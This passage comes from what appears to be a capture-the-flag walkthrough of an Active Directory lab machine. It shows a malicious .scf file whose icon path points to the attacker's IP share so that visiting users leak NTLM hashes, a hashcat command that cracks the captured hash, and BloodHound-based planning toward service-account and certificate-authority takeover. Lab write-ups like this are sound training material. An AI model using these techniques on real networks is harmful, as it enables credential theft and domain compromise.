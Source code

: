 It is also possible to manually create a malicious `.scf`, I did this on the box Driver: -

-   <https://bloodstiller.com/walkthroughs/driver-box/#using-an-scf-file-to-get-a-users-ntlm-hash>

To do this we create a file with the following content and save it as a `.scf` file.

```shell
[Shell]
Command=2
IconFile=\\10.10.14.128\secret\secret.ico
[Taskbar]
Command=ToggleDesktop
```

-   +Note+:
    -   The `IconFile` is as it sounds the icon for the file, as soon as the user opens the directory/share their machine will reach out to my attack machine to retrieve the icon and when they do they will send their NTLM hash which we can capture.
    -   We put an `@` at the start of the name so it appears at the top and ensure it is executed as soon as the user accesses the share it is in. This way the user does not need to click on it and it will trigger. So it could be called `@secret.scf`


### Cracking The `p.agila` hash: {#cracking-the-p-dot-agila-hash}

Now we have recovered their has we can crack it.

```shell
hashcat -m 5600 Hashes.txt ~/Wordlists/rockyou.txt
```

{{< figure src="/ox-hugo/2025-06-04-071838_.png" >}}

Verifying their creds using netexec. As we can see they have no more permissions than we already have.
![](/ox-hugo/2025-06-04-072051_.png)


### Discovering `p.agila` Has Control Over The "Service Accounts" Groups {#discovering-p-dot-agila-has-control-over-the-service-accounts-groups}

Checking bloodhound we can see we are a member of the "SERVICE ACCOUNT MANAGERS" group.

{{< figure src="/ox-hugo/2025-06-04-072158_.png" >}}

This group has `GenericAll` over the group "SERVICE ACCOUNTS"
![](/ox-hugo/2025-06-04-072304_.png)

And as we saw earlier the "SERVICE ACCOUNTS" group has `GenericWrite` over the service accounts it contains.
![](/ox-hugo/2025-06-04-072437_.png)

This gives us a clear path forward to take over all the service accounts if we wish, however I am going to focus on the `CA_SVC` account, the reason being is that in my experience the microsoft Certificate Authority is often misconfigured and this can give us a clear path to domain takeover. If that target does not workout I would then target `WINRM_SVC` as they are part of the "REMOTE MANAGEMENT USERS" group
![](/ox-hugo/2025-06-11-081541_.png)

